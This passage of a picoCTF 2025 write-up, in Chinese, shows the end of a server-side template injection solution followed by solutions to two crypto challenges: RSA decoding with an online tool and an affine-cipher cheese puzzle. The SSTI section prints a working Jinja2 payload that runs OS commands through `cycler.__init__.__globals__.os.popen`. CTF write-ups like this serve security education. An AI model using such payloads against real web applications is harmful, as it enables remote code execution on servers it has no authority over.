 ![result](/assets/picoCTF2025/Web/SSTI1/image.png)

```
{{ cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

得到結果

![flag](/assets/picoCTF2025/Web/SSTI1/image-1.png)

## Crypto

### EVEN RSA CAN BE BROKEN

先按照題目連過去

```sh
nc verbal-sleep.picoctf.net 55822
```

得到

```
N: 15252509958680134355281192790423775780642730018121324095788578219292963353723916232720499483903461184668705060828515811319893114374925851073427408951758226
e: 65537
cyphertext: 4505358946357386625233434478520489616980726252380557529086592189572337871695906872189490934253694515800987194433679204612679402344074107465616766286153989
```

用線上 decoder [RSA Cipher](https://www.dcode.fr/rsa-cipher)

![flag](/assets/picoCTF2025/Crypto/EVEN_RSA_CAN_BE_BROKEN/image.png)

### Guess My Cheese (Part 1)

用[Affine Cipher](https://www.dcode.fr/affine-cipher)去 decode

```
nc verbal-sleep.picoctf.net 58487

*******************************************
***             Part 1                  ***
***    The Mystery of the CLONED RAT    ***
*******************************************

The super evil Dr. Lacktoes Inn Tolerant told me he kidnapped my best friend, Squeexy, and replaced him with an evil clone! You look JUST LIKE SQUEEXY, but I'm not sure if you're him or THE CLONE. I've devised a plan to find out if YOU'RE the REAL SQUEEXY! If you're Squeexy, I'll give you the key to the cloning room so you can maul the imposter...

Here's my secret cheese -- if you're Squeexy, you'll be able to guess it:  XCFBPAFTET
Hint: The cheeses are top secret and limited edition, so they might look different from cheeses you're used to!
Commands: (g)uess my cheese or (e)ncrypt a cheese
What would you like to do?
e

What cheese would you like to encrypt? blue
Here's your encrypted cheese:  BNQC
Not sure why you want it though...*squeak* - oh well!

I don't wanna talk to you too much if you're some suspicious character and not my BFF Squeexy!
You have 2 more chances to prove yourself to me!

Commands: (g)uess my cheese or (e)ncrypt a cheese
What would you like to do?
```